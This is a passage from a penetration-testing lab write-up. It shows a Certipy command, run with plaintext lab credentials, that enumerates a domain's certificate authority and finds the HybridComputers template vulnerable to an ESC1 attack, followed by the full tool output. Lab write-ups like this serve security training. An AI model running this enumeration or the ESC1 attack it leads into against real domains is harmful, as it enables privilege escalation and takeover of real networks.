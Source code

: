 We then used **Certipy** to find and display **vulnerable certificate templates** in AD CS on the DC and discovered that the `HybridComputers` template is vulnerable to an ESC1 attack.

```
┌──(destiny㉿falcon)-[~/…/Chains/Hybrid/bloodhound/certipy]
└─$ certipy-ad find -u 'peter.turner'@HYBRID.VL -p "b0cwR+G4Dzl_rw" -dc-ip 10.10.155.165 -stdout -vulnerable
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'hybrid-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'hybrid-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'hybrid-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'hybrid-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : hybrid-DC01-CA
    DNS Name                            : dc01.hybrid.vl
    Certificate Subject                 : CN=hybrid-DC01-CA, DC=hybrid, DC=vl
    Certificate Serial Number           : 4C8F6DB934C950B84A32042D62BBF2F1
    Certificate Validity Start          : 2023-06-17 14:04:39+00:00
    Certificate Validity End            : 2124-12-26 08:24:47+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : HYBRID.VL\Administrators
      Access Rights
        ManageCertificates              : HYBRID.VL\Administrators
                                          HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
        ManageCa                        : HYBRID.VL\Administrators
                                          HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
        Enroll                          : HYBRID.VL\Authenticated Users
Certificate Templates
  0
    Template Name                       : HybridComputers
    Display Name                        : HybridComputers
    Certificate Authorities             : hybrid-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 100 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Permissions
      Enrollment Permissions
```